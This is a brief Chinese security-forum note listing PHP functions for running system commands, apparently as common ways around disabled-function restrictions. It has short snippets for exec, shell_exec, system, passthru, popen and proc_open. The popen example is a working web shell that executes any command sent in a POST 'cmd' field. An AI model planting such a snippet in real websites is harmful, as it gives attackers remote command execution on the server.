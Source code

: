 # 常规绕过

> 原文：[https://www.zhihuifly.com/t/topic/3462](https://www.zhihuifly.com/t/topic/3462)

# ***常规绕过***

**1\. exec**

```
<?php
  echo exec('whoami');?> 
```

**2\. shell_exec**

```
<?php
  echo shell_exec('whoami');?> 
```

**3\. system**

```
<?php
  system('whoami');?> 
```

**4\. passthru**

```
<?php
  passthru("whoami");?> 
```

**5\. popen**

```
<?php
$command=$_POST['cmd'];
$handle = popen($command , "r");
  while(!feof($handle))
  {     echo fread($handle, 1024);  //fread($handle, 1024);
  }  
  pclose($handle);?> 
```

**6\. proc_open**

```
<?php
  $command="ipconfig";
  $descriptorspec = array(1 => array("pipe", "w"));
  $handle = proc_open($command ,$descriptorspec , $pipes);
  while(!feof($pipes[1]))
  {     echo fread($pipes[1], 1024); //fgets($pipes[1],1024);
  }?> 
```
